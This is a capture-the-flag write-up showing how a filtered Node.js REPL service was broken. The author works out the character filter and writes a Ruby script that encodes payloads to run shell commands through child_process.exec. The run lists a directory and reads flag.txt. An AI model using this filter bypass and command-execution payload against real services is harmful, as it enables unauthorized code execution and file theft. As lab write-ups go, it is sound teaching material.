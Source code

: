 #Sh-ock
###(exp90, solved by 105)


>Description: This is some kind of weird thing. I am sh-ocked.

>Service: 188.166.133.53:12589

First thing is first, let's see what we are working with...

`telnet 188.166.133.53 12589`

We are greeted with a small prompt where we can input data, let's try some stuff:

```
$test
[ReferenceError: te is not defined]
```

That's weird, what kind of error is this? A quick Google search on the error provides information that this is likely a JavaScript error. So, it looks like we are working with some kind of JavaScript shell, and it's likely Node.

We input `test` and got `te` back... So, it reversed our input and grabbed ever other character... Interesting....

Let's try something else:

```
$01234567890123456789012345
[ReferenceError: 284062 is not defined]
```

Hrmmmm...
```
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5
    ^       ^       ^       ^       ^       ^
```

Instead of every other character, now it's every third character...

After some vigorous attempts at figuring out how the filter was working, it was found that the if the input exceeds 50 characters, it will take every 6th character. This means that as long as our input is greater than or equal to 9 bytes in length, we can just reverse our input and repeat each character 6 times. If the input is less than 9 characters, we could simply add a comment section to fulfill those bytes.

Okay, so now that we have figured out the filter, let's throw some JavaScript related queries at it (Some code pastes will be shortened for the sake of this writeup's length)

Let's run the command `this` and see how it responds. We can accomplish this by padding our extra 5 bytes with a JavaScript comment, reverse it and repeat each character 6 times. This will make our input 54 bytes long, allowing it to bypass the filter properly.

`//////////////////////////////ssssssiiiiiihhhhhhtttttt`


```
$//////////////////////////////ssssssiiiiiihhhhhhtttttt
Interface {
  _sawReturn: false,
  domain: null,
  _events:
   { close: { [Function: g] listener: [Function] },
     line: [Function] },
  _eventsCount: 2,
  _maxListeners: undefined,
  output:
   Socket {
     _connecting: false,
     _hadError: false,
     _handle:
      TCP {
        _externalStream: {},
```

Okay, this is interesting. It appears to have dropped us an object list of it's properties!

Let's try and execute `process` now

```
$////////////sssssssssssseeeeeeccccccoooooorrrrrrpppppp
process {
  title: '/opt/nodejs/bin/node',
  version: 'v4.3.0',
  moduleLoadList:
   [ 'Binding contextify',
     'Binding natives',
     'NativeModule events',
     'NativeModule buffer',
     'Binding buffer',
     'NativeModule internal/util',
     'Binding util',
     'NativeModule timers',
     'Binding timer_wrap',
     'NativeModule _linklist',
     'NativeModule assert',
     'NativeModule util',
     'Binding uv',
     'NativeModule path',
     'NativeModule module',
     'NativeModule internal/module',
     'NativeModule vm',
     'NativeModule fs',
     'Binding fs',
     'NativeModule constants',
     'Binding constants',
     'NativeModule stream',
     'NativeModule _stream_readable',
     'NativeModule _stream_writable',
     'NativeModule _stream_duplex',
     'NativeModule _stream_transform',
     'NativeModule _stream_passthrough',
     'Binding fs_event_wrap',
     'NativeModule readline',
     'Binding tty_wrap',
     'NativeModule net',
     'Binding cares_wrap',
     'Binding tcp_wrap',
     'Binding pipe_wrap',
     'Binding stream_wrap',
     'NativeModule string_decoder',
     'NativeModule console' ],
  versions:
   { http_parser: '2.5.1',
     node: '4.3.0',
     v8: '4.5.103.35',
     uv: '1.8.0',
     zlib: '1.2.8',
     ares: '1.10.1-DEV',
     icu: '56.1',
     modules: '46',
     openssl: '1.0.2f' },
  arch: 'x64',
  platform: 'linux',
  release:
   { name: 'node',
     lts: 'Argon',
     sourceUrl: 'https://nodejs.org/download/release/v4.3.0/node-v4.3.0.tar.gz',
     headersUrl: 'https://nodejs.org/download/release/v4.3.0/node-v4.3.0-headers.tar.gz' },
  argv: [ '/opt/node-v4.3.0-linux-x64/bin/node', '/home/exp90/task.js' ],
  execArgv: [],
  env:
   { OLDPWD: '/etc/service/exp90',
     PATH: '/command:/usr/local/bin:/usr/local/sbin:/bin:/sbin:/usr/bin:/usr/sbin:/usr/X11R6/bin',
```

Awesome!

At this point, I'm tired of reversing my input and manually repeating characters, so I made a script in Ruby. It will connect and execute some initial commands, and then give me a prompt to input whatever else I would like to run in the same session.

(This code can be found in exp90.rb)
```
#!/usr/bin/ruby
require 'socket'
HOST      = '188.166.133.53'
PORT      = 12589

@sock = TCPSocket.new(HOST, PORT)
@initial_payloads = ["this.sys=require('sys')", "this.ex=require('child_process').exec", 'this.ex("ls -la", function(error, stdout, stderr) { console.log(stdout); })']

def send_data(stuff)
  puts "PLOAD: #{stuff}"
  @sock.write("#{stuff.to_s}\n")
end

def generate_payload(input)
  pl = ''
  reverse = input.reverse
  reverse.split('').each do |c|
    pl += (c * 6)
  end
  send_data(pl)
  @initial_payloads.shift
end

def custom_input(input)
  pl = ''
  reverse = input.reverse
  reverse.split('').each do |c|
    pl += (c * 6)
  end
  send_data(pl)
end

loop do
  @data = @sock.recv(5000)
  puts @data unless @data.empty?
  if @initial_payloads.size >= 1
    generate_payload(@initial_payloads[0])
  else
    print '> '
    i = gets.chomp
    custom_input(i)
  end
end
```

As you can see the initial payloads will create a variable within the object called sys, which will require system and the next command following that will try and dump the contents of the directory!

Upon running, we get the directory dump!!!

```
drwxr-x---  2 exp90 exp90 4096 Feb 19 14:26 .
drwxr-xr-x 14 root  root  4096 Feb 11 12:19 ..
-rw-------  1 exp90 exp90    6 Feb 19 14:26 .bash_history
-rw-r--r--  1 exp90 exp90  220 Nov 13  2014 .bash_logout
-rw-r--r--  1 exp90 exp90 3515 Nov 13  2014 .bashrc
-rw-r--r--  1 exp90 exp90  675 Nov 13  2014 .profile
-rw-r--r--  1 root  exp90   24 Feb 11 18:23 flag.txt
-rw-r--r--  1 root  exp90 1011 Feb 11 18:23 task.js
```

The final thing to do is to read the contents of the `flag.txt` file.
We need to require the `fs` module and store it in a variable associated with the object. We can then use this to read from files.

Running it in le script

```
> this.f=require('fs')
> this.f.readFileSync('flag.txt','utf8')
```

Desired output? I think so!

```
IW{Shocked-for-nothing!
>
```
